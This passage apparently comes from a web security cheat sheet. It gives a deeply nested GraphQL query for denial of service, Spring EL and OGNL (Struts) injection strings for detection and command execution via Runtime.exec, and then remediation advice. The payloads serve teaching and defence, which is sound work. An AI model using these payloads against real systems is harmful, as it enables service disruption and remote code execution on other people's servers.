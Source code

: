 ```graphql

# Denial of Service via deep nesting
{
  author(id: "1") {
    posts {
      author {
        posts {
          author {
            posts {
              # ... continue nesting
            }
          }
        }
      }
    }
  }
}
```

### **🆕 Expression Language Injection**

**Spring EL Injection**:
```java
# Detection
${7*7}
#{7*7}

# Code execution
${T(java.lang.Runtime).getRuntime().exec('id')}
#{T(java.lang.Runtime).getRuntime().exec('id')}
```

**OGNL Injection (Struts)**:
```java
# Detection
%{7*7}

# Code execution
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('id'))}
```

### **Remediation**:
- **Template Security**: Use **sandboxed template engines** with restricted function access
- **GraphQL Security**: Implement **query complexity analysis**, **depth limiting**, and **rate limiting**
- **Expression Language**: Disable or restrict **SpEL/OGNL** evaluation in user inputs
- **Input Validation**: Apply **strict input validation** with allowlists for all injection types

---

## **🆕 Microservices & Container Security**
